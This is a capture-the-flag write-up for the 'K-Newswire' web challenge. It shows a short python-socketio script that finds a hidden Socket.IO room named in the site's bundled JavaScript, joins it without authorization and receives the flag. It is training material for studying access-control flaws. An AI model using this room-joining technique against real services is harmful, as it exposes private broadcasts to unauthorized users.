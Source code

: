 # Writeup 1
https://github.com/S450R1/kaspersky-ctf-writeups/tree/main/web/k-newswire

# Writeup 2
Writeup: K-Newswire (lil bit AI help for this writeup )

 Challenge Overview

We were given a service running at:


http://k-newswire.task.sasc.tf:8000/


At first glance, it looks like a news application with a front-end served over HTTP and some kind of real-time updates happening behind the scenes. The task was to retrieve the hidden flag.

---
 
Recon

Inspecting the static assets, I found an interesting bundled JavaScript file:


http://k-newswire.task.sasc.tf:8000/assets/index-CrDw9_mc.js


Looking inside, there was a clear reference to a WebSocket client:

ws://k-newswire.task.sasc.tf:8000/socket.io/?EIO=4&transport=websocket


Even more interestingly, the JS defined some rooms used by the app:

```
const kh = Object.freeze({
  public: "public",
  secret_announcements: "secret_announcements"
});
```


So the app connects users to the public room normally, but there exists a hidden room called secret_announcements.

---

Exploitation

To interact with the socket, I wrote a quick Python script using python-socketio:

```
import socketio

sio = socketio.Client()

@sio.event
def connect():
    print(":white_check_mark: Connected!")

@sio.on("*")  # catch-all handler
def catch_all(event, data):
    print(":envelope_with_arrow:", event, data)

sio.connect("ws://k-newswire.task.sasc.tf:8000", transports=["websocket"])

# normal users get only this:
sio.emit("join", {"room": "public"})

# but let's try the hidden room:
sio.emit("join", {"room": "secret_announcements"})

sio.wait()
```



Running this script, the server happily let me into the secret_announcements room and pushed a private broadcast and gave us the flag
